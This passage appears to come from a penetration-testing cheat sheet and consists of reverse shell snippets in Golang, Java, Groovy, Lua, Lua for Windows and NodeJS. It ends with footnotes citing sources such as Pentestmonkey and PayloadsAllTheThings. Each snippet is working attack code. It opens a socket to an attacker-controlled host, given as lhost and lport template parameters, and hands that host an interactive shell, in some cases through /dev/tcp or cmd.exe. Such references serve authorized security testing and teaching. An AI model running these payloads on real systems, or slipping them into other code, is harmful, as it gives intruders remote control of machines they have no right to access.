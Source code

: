 ### Golang

```sh
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","{{< param lhost >}}:{{< param lport >}}");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{{< param lhost >}}/{{< param lport >}};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Groovy [^groovy-shell]

```groovy
String host="{{< param lhost >}}";
int port={{< param lport >}};
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

{{<hint info>}}
Java reverse shell also works for Groovy.
{{</hint>}}

### Lua

```sh
lua -e "require('socket');require('os');t=socket.tcp();t:connect('{{< param lhost >}}','{{< param lport >}}');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### Lua Windows

```sh
lua5.1 -e 'local host, port = "{{< param lhost >}}", {{< param lport >}} local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect({{< param lport >}}, "{{< param lhost >}}", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.